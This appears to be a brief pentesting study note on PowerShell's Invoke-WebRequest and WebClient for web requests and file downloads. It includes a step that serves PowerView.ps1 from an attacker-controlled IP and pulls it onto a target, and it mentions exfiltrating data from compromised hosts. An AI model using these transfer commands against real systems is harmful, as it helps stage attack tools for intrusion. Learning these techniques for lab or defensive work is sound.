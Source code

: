 ### **PowerShell Web Interaction Overview**

#### **1. Invoke-WebRequest Cmdlet**

- **Purpose**: Facilitates HTTP/HTTPS requests, file downloads, and interaction with web content.
- **Aliases**: `wget`, `iwr`, `curl`.

**Basic GET Request Example**:
```
Invoke-WebRequest -Uri "https://example.com" -Method GET
```

**Inspecting Response Object**:

```
Invoke-WebRequest -Uri "https://example.com" -Method GET | Get-Member
```

**Filtering Content**: To get specific elements, such as images:

```
Invoke-WebRequest -Uri "https://example.com" -Method GET | fl Images
```

**Viewing Raw Content**:

```
Invoke-WebRequest -Uri "https://example.com" -Method GET | fl RawContent
```


#### **2. Downloading Files**
**Direct Download**:
```
Invoke-WebRequest -Uri "https://example.com/file.zip" -OutFile "C:\file.zip"
```
**Example with a Local Web Server**: If you host a file locally:
```
python3 -m http.server 8000
```
From the target:
```
Invoke-WebRequest -Uri "http://10.10.14.169:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```



#### **3. Alternative Methods**
**Using .NET WebClient**: For cases where `Invoke-WebRequest` isn't available:
```
(New-Object Net.WebClient).DownloadFile("https://example.com/file.zip", "C:\file.zip")
```


### **Applications in Administration and Pentesting**
- **Remote Updates and Automation**: Easily script and automate updates or installations on multiple hosts.
- **Pentesting**: Rapidly deploy tools and scripts to compromised hosts, or exfiltrate data.
- **Local vs. External Requests**: Consider the security implications and visibility of your web requests.